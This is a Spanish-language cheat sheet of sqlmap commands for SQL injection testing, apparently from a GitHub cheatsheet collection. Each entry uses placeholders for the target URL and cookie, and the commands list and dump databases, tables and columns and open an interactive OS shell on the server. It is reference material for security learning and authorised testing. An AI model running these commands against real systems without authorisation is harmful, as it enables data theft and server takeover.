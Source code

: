 # SQLMap Cheat Sheet

#### Uso simple
```
sqlmap -u "<URL>"
```

#### Especificar el Sistema Gestor de Base de Datos
```
sqlmap -u "<URL>" --dbms=<Name-DBMS>
```

#### Listar las Bases de Datos del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --dbs
```

#### Listar las tablas de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> --tables
```

#### Ver todo el contenido de una Tabla de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --dump
```

#### Listar las columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --columns
```

#### Ver contenido de ciertas Columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> -C <Column1,Column2> --dump
```

#### Obtener un Shell de OS interactivo
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --os-shell
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)